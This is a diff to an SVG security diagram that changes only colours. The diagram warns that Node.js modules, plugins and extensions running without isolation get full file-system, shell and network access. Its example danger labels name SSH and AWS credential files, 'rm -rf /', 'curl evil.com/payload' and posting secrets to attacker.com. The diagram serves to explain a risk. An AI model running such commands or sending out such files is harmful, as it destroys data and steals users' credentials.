

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 800 420">
  <defs>
    <style>
      .bg { fill: #0d1117; }
      .danger-box { fill: none; stroke: #f85149; stroke-width: 3; }
-       .module-box { fill: #1f2937; stroke: #58a6ff; stroke-width: 2; }
+       .module-box { fill: #1f2937; stroke: #06b6d4; stroke-width: 2; }
      .access-box { fill: #f8514933; stroke: #f85149; stroke-width: 1.5; }
      .title-text { fill: #c9d1d9; font-family: Arial, sans-serif; font-size: 18px; font-weight: bold; }
-       .module-text { fill: #58a6ff; font-family: Arial, sans-serif; font-size: 14px; font-weight: 600; }
+       .module-text { fill: #06b6d4; font-family: Arial, sans-serif; font-size: 14px; font-weight: 600; }
      .access-text { fill: #f85149; font-family: Arial, sans-serif; font-size: 13px; font-weight: 600; }
      .danger-text { fill: #f85149; font-family: Arial, sans-serif; font-size: 12px; }
      .label-text { fill: #8b949e; font-family: Arial, sans-serif; font-size: 11px; }
      .warning-text { fill: #f85149; font-family: Arial, sans-serif; font-size: 16px; font-weight: bold; }
      .arrow { stroke: #f85149; stroke-width: 2; fill: none; marker-end: url(#arrowhead); }
    </style>
    <marker id="arrowhead" markerWidth="10" markerHeight="10" refX="9" refY="3" orient="auto">
      <polygon points="0 0, 10 3, 0 6" fill="#f85149" />
    </marker>
  </defs>
  <rect class="bg" width="800" height="420" />
  <text class="warning-text" x="30" y="35">DANGER: No Isolation</text>
  <circle cx="15" cy="28" r="8" fill="none" stroke="#f85149" stroke-width="2" />
  <text x="15" y="33" fill="#f85149" font-size="14" font-weight="bold" text-anchor="middle">!</text>
  <rect class="danger-box" x="50" y="60" width="700" height="200" rx="8" />
  <text class="title-text" x="70" y="85">Node.js Process (User Privileges)</text>
  <rect class="module-box" x="80" y="110" width="180" height="120" rx="6" />
  <text class="module-text" x="170" y="135" text-anchor="middle">Module 1</text>
  <text class="label-text" x="170" y="155" text-anchor="middle">(Tools)</text>
  <text class="label-text" x="170" y="190" text-anchor="middle">Full File System</text>
  <text class="label-text" x="170" y="210" text-anchor="middle">Read/Write/Delete</text>
  <rect class="module-box" x="310" y="110" width="180" height="120" rx="6" />
  <text class="module-text" x="400" y="135" text-anchor="middle">Module 2</text>
  <text class="label-text" x="400" y="155" text-anchor="middle">(Plugins)</text>
  <text class="label-text" x="400" y="190" text-anchor="middle">Shell Command</text>
  <text class="label-text" x="400" y="210" text-anchor="middle">Execution</text>
  <rect class="module-box" x="540" y="110" width="180" height="120" rx="6" />
  <text class="module-text" x="630" y="135" text-anchor="middle">Module N</text>
  <text class="label-text" x="630" y="155" text-anchor="middle">(Extensions)</text>
  <text class="module-text" x="630" y="180" text-anchor="middle">52+</text>
  <text class="label-text" x="630" y="200" text-anchor="middle">Network Access</text>
  <text class="label-text" x="630" y="220" text-anchor="middle">Outbound Requests</text>
  <rect class="access-box" x="80" y="280" width="180" height="40" rx="4" />
  <text class="access-text" x="170" y="305" text-anchor="middle">Full FS Access</text>
  <rect class="access-box" x="310" y="280" width="180" height="40" rx="4" />
  <text class="access-text" x="400" y="305" text-anchor="middle">Shell Exec</text>
  <rect class="access-box" x="540" y="280" width="180" height="40" rx="4" />
  <text class="access-text" x="630" y="305" text-anchor="middle">Network I/O</text>
  <line class="arrow" x1="170" y1="320" x2="170" y2="355" />
  <line class="arrow" x1="400" y1="320" x2="400" y2="355" />
  <line class="arrow" x1="630" y1="320" x2="630" y2="355" />
  <rect fill="#1a1d24" stroke="#f85149" stroke-width="1" x="60" y="365" width="220" height="40" rx="4" />
  <text class="danger-text" x="170" y="382" text-anchor="middle">~/.ssh/id_rsa</text>
  <text class="danger-text" x="170" y="398" text-anchor="middle">~/.aws/credentials</text>
  <rect fill="#1a1d24" stroke="#f85149" stroke-width="1" x="290" y="365" width="220" height="40" rx="4" />
  <text class="danger-text" x="400" y="382" text-anchor="middle">rm -rf /</text>
  <text class="danger-text" x="400" y="398" text-anchor="middle">curl evil.com/payload</text>
  <rect fill="#1a1d24" stroke="#f85149" stroke-width="1" x="520" y="365" width="220" height="40" rx="4" />
  <text class="danger-text" x="630" y="382" text-anchor="middle">POST secrets</text>
  <text class="danger-text" x="630" y="398" text-anchor="middle">to attacker.com</text>
</svg>
